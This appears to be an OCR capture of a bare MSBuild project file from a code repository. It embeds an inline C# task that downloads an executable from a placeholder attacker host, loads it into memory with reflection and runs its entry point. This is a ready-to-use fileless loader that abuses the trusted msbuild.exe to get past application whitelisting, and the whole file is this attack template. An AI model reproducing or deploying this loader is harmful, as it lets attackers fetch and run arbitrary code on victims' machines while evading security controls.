 ```markdown

<Project ToolsVersion="4.0" xmlns="http://schemas.microsoft.com/developer/msbuild/2003">
  <Target Name="DemoClass">
   <ClassExample />
  </Target>
	<UsingTask
    TaskName="ClassExample"
    TaskFactory="CodeTaskFactory"
    AssemblyFile="C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Build.Tasks.v4.0.dll" >
	<Task>
      <Code Type="Class" Language="cs">
        <![CDATA[
			using System;
			using Microsoft.Build.Framework;
			using Microsoft.Build.Utilities;
			using System.IO;
			using System.Net;
			using System.Reflection;
			public class ClassExample :  Task, ITask
			{
				public override bool Execute()
				{
                   		 	using (WebClient client = new WebClient())
                   		 	{
                        			System.Net.ServicePointManager.SecurityProtocol = System.Net.SecurityProtocolType.Tls | System.Net.SecurityProtocolType.Tls11 | System.Net.SecurityProtocolType.Tls12;
						client.Headers.Add ("user-agent", "Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.90 Safari/537.36");
						MemoryStream  ms = new MemoryStream(client.DownloadData("http://IP_ADDRESS/ASSEMBLY_NAME.exe"));
						BinaryReader br = new BinaryReader(ms);
						byte[] bin = br.ReadBytes(Convert.ToInt32(ms.Length));
						ms.Close();
						br.Close();
						Assembly a = Assembly.Load(bin);
						string[] args = new string[] {"ASSEMBLY ARGS GO HERE"};
						try
						{
							a.EntryPoint.Invoke(null, new object[] { args });
						}
						catch
						{
							MethodInfo method = a.EntryPoint;
							if (method != null)
							{
								object o = a.CreateInstance(method.Name);
								method.Invoke(o, null);
							}
						}
					}
					return true;
				}
			}
        ]]>
      </Code>
    </Task>
  </UsingTask>
</Project>


```
